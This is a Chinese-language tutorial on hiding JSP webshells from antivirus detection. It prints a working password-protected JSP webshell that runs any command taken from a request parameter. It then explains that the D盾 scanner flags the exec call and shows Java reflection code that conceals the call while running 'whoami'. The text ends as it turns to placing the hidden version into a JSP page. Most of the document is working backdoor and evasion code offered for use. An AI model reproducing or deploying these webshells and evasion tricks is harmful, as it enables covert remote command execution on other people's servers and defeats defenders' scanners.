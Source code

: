 JAVA执行系统命令的核心就是`Runtime.getRuntime().exec(cmd)`

### 原型

```
<% if("023".equals(request.getParameter("pwd"))){ 
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1; byte[] b = new byte[2048]; out.print("
<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b,0,a));
        }
        out.print("</pre>");
    }
%>
```

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900429209-d04cb3ef-d200-4b4b-a64c-cbd008e80021.png)

经过二分法分析，发现特征码是在`Runtime.getRuntime().exec`这一句。不知道什么是二分法分析的看我以前的两篇webshell免杀文章。

然后发现D盾对于JSP中只要有exec就会报一级。

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900429295-6062e8ff-65db-4154-806c-bffff73b509d.png)

那么我们就可以利用类反射的方法来隐藏掉exec函数。

### 类反射绕过

```
package test;
import java.lang.reflect.Method;
import java.util.Scanner;
public class Test {
    public static void main(String[] args) throws Exception {
        String op = "";
        Class rt = Class.forName("java.lang.Runtime"); //加载Runtime类
        Method gr = rt.getMethod("getRuntime");  //获取getRuntime方法
        Method ex = rt.getMethod("exec", String.class);  //获取exec方法
        Process e = (Process) ex.invoke(gr.invoke(null),  "cmd /c whoami"); //invoke 传参调用
        //以下代码是获取输出结果
        Scanner sc = new Scanner(e.getInputStream()).useDelimiter("\\A"); 
        op = sc.hasNext() ? sc.next() : op;
        sc.close();
        System.out.print(op);
    }
}
```

可以看到成功执行了whoami命令

![img](https://cdn.nlark.com/yuque/0/2021/png/1599908/1623900429390-e2cc0856-3f3a-4d98-82d1-177cbb5707c1.png)

那么接下来就是把他放到jsp里面。
